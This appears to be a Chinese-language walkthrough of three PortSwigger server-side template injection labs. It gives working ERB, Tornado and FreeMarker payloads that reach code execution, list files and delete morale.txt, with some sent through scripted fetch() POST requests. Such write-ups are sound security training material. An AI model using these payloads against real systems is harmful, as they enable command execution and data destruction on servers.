 ```yaml
---
title: Server-side template injection
description: Server-side template injection
---
```


## Lab: Basic server-side template injection

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/server-side-template-injection/exploiting#read                                     |
| Lab       | https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic |

點選第一個 product，發現導到 `https://0abc00e204db5b45820e83400062000f.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock`

先合理推測注入點應該是 `?message=` 這邊

Lab 有說要閱讀 [ERB](https://docs.ruby-lang.org/en/3.4/ERB.html) 的官方文件

1. `<%= x %>`

```
(erb):1:in `<main>': undefined local variable or method `x' for main:Object (NameError) from /usr/lib/ruby/2.7.0/erb.rb:905:in `eval' from /usr/lib/ruby/2.7.0/erb.rb:905:in `result' from -e:4:in `<main>'
```

2. `<%= x=42; x %>`

42

3. `<%= x=Dir.children('.'); x %>`

[".bash_logout", ".bashrc", ".profile", "morale.txt", ".bash_history"]

4. `<%= File.delete('morale.txt'); %>`

成功解題

## Lab: Basic server-side template injection (code context)

| Dimension | Description                                                                                                                          |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/server-side-template-injection/exploiting#read                                                  |
| Lab       | https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context |

"Preferred name" 會去戳這隻 API

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=user.first_name&csrf=7HxFgj0pQGHnI4gYjKGWKmZFq76R0JI9`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

Lab 有說要閱讀 [Tornado](https://www.tornadoweb.org/en/stable/template.html) 的官方文件

1. 修改成 user

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=user&csrf=7HxFgj0pQGHnI4gYjKGWKmZFq76R0JI9`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

&lt;**main**.User instance at 0x7fa2a569f0f0&gt;

2. 修改成 666

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=${encodeURIComponent(`x=666;x`)}&csrf=4b6VsskRMTRNZ5UzLHHsrdt83ALosBL5`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

3. 嘗試 import os

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=${encodeURIComponent(`import os;os.listdir('.')`)}&csrf=4b6VsskRMTRNZ5UzLHHsrdt83ALosBL5`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

```
No handlers could be found for logger "tornado.application" Traceback (most recent call last): File "<string>", line 15, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 317, in __init__ "exec", dont_inherit=True) File "<string>.generated.py", line 4 _tt_tmp = import os;os.listdir('.') # <string>:1 ^ SyntaxError: invalid syntax
```

4. AI 說 Tornado 有一套自己的語法

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=${encodeURIComponent(`__import__('os').listdir('.')`)}&csrf=4b6VsskRMTRNZ5UzLHHsrdt83ALosBL5`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

```
[&#39;.bash_logout&#39;, &#39;.bashrc&#39;, &#39;.profile&#39;, &#39;morale.txt&#39;, &#39;.bash_history&#39;]
```

5. 來刪檔案

```js
fetch(
  "https://0a30002003206b27811b34cf0094009f.web-security-academy.net/my-account/change-blog-post-author-display",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `blog-post-author-display=${encodeURIComponent(`__import__('os').remove('morale.txt')`)}&csrf=4b6VsskRMTRNZ5UzLHHsrdt83ALosBL5`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## Lab: Server-side template injection using documentation

| Dimension | Description                                                                                                                           |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/server-side-template-injection/exploiting#read-about-the-security-implications                   |
| Lab       | https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation |

在 https://0a4000cf045179d081c3116c008a001f.web-security-academy.net/product/template?productId=1 有編輯模板的功能

1. 嘗試 `${product}`

`lab.actions.templateengines.FreeMarkerProduct@16e7dcfd`

[FreeMarker 官方文件](https://freemarker.apache.org/index.html)

[Seldom used and expert built-ins](https://freemarker.apache.org/docs/ref_builtins_expert.html)

2. 嘗試 `${"1+2"?eval}`

`3`

3. 嘗試

```
<#assign x="freemarker.template.utility.Execute"?new()>
${x("ls")}
```

morale.txt

4. 嘗試

```
<#assign x="freemarker.template.utility.Execute"?new()>
${x("rm morale.txt")}
```

成功刪除

## 參考資料

- https://portswigger.net/web-security/server-side-template-injection

